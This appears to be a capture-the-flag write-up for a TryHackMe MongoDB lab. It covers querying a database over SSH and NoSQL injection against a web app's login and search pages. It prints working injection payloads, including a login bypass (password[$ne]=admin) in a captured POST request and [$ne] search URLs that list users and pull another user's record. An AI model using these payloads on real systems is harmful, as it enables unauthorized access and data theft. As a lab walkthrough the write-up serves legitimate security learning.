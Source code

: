 ## TASK-1  Interact with the MongoDB server to find the flag. What is the flag? 

Use nmap to scan the IP. You will find port <strong>2222</strong> hosting SSH. try to connect to ssh using the credential ```thm:tryhackme```

```bash
ssh thm@MACHINE_IP -p 2222
```

Once you are on the system remotely via SSH, load up the mongo database using the command ```mongo```.<br>
Run the following command to list the databases.

```bash
> show databases
admin   0.000GB
config  0.000GB
flagdb  0.000GB
local   0.000GB
```
The interesting database names -  <b>admin</b> and <b>flagdb</b>. But we will be looking into the flagdb database to get our flag for the first question.<br>
We use the ```use``` command to connect to a specific database in MongoDB, in this case <b>flagdb</b>.

```bash
> use flagdb
switched to db flagdb
```

Now to see the collections inside the flagdb database use the following command.

```bash
> db.getCollectionNames();
[ "flagColl" ]
```

Now we can see that "flagColl" is the collection inside the flagdb databse that might be holding the flag.
Running the below command to list the contents inside the "flagColl" gives us the flag inside.

```bash
> db.flagColl.find()
{ "_id" : ObjectId("618806af0afbc09bdf42bd6a"), "flag" : "THM{REDACTED}" }
```

## TASK-2 Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?

Intercept the POST /login request in the home page of the site. Since we know that the database in use is <b>MongoDB</b>.
We can try to inject some queries which result's to login bypass.

```
POST /login HTTP/1.1
Host: 10.10.54.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://10.10.54.102
DNT: 1
Connection: close
Referer: http://10.10.54.102/login
Cookie: connect.sid=s%3Act9adcXA4grbm68lhw9haiRGZT30XQ7r.Tnmf2P4Sb4meUT4%2B7r1F9d4nchbXnG8iZ6ns%2FUHuGzU
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin&password[$ne]=admin
```

If you are not familiar with MongoDB commands, then let me explain the logic is ```username=admin and password != admin```. The same idea is used here. <br>
This helps us bypass the login page and we successfully login as a privileged user <b>admin</b>.

On the dashboard you can see the flag : ```THM{REDACTED}```


## TASK-3 Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?

Use the same idea here. The search url is ```http://MACHINE_IP/search?username[$ne]=blabla&role=guest```. and you can list all the users with guest roles.
```THM{REDACTED}```

## TASK-4 Use the gift search page to perform NoSQL injection and retrieve the mcskidy record. What is the details record?

Use the same idea here. The search url is ```http://MACHINE_IP/search?username=mcskidy&role[$ne]=blabla```. and you have the flag.
```ID:REDACTED:mcskidy:admin```


